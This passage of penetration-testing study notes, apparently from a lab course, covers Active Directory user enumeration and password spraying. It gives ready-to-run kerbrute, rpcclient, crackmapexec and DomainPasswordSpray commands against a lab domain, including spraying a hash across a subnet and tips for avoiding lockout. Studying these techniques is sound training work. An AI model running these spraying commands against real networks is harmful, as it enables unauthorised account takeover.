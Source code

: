 * The tool sends a TGT request to the DC using a specified username (event ID 4768  - TGT was requested). If the username is valid, the KDC will prompt for Kerberos pre-authentication. Else, it returns `PRINCIPAL UNKNOWN`. This does not count towards logon failures and does not lock out accounts.
* However, when Kerberos pre-authentication is used for password spraying, failed authentication attempts can lock out accounts.

`kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

Finally, with valid credentials, we can also get a full list of users using `crackmapexec`:
`sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users`

### Password Spraying from Linux

We can use `rpcclient`, and check for `Authority Name` in the response (which indicates a valid login):
`for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`

Alternatively, we can use `kerbrute`:
`kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1`

`crackmapexec` can also be used:
`sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`

If the local administrator password/hash is obtained, we can try to spray the same password or hash across multiple hosts.

* This is due to local administrator password reuse, which can arise due to the use of gold images.
* We can use `crackmapexec` for this. It is worth to target high-value hosts such as SQL or Microsoft Exchange servers.

If we wish to spray NT hashes using `crackmapexec`, make sure to use the `--local-auth` option, which tells the tool to only attempt log in once on each machine, to reduce the chance of account lockout.

* This is crucial for the built-in administrator.
* Without the `--local-auth` option, the tool attempts to authenticate using the current domain, which can quickly result in account lockouts.

`sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +`

### Password Spraying from Windows

We can use the `DomainPasswordSpray` tool.

* Once we are authenticated, the tool generates a user list from AD, queries the domain password policy and excludes user accounts within one attempt of lock out.
* If we want to provide our own user list, we use the `-UserList` option.

Likewise, we can use `kerbrute` on Windows as well.

## Credentialed Enumeration

### Linux
